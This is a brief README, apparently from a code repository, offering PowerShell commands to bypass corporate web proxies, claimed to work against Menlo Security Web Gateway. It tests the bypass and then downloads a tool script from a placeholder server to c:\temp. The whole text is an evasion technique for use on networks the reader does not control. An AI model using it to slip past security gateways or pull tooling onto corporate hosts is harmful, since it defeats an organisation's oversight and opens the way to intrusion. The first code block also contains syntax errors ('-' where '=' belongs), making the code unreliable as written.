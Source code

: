 # Proxy-Bypass using PowerShell.
When PowerShell is available and you need to bypass those annoying corp proxies, give this a try. A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## PowerShell code for proxy bypass.
Paste as is into powershell session. 
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
If working, you should get back a StatusCode: 200 and a bunch more content including headers etc.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
If all has gone well, use the bypass to download tooling from your server location. 
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
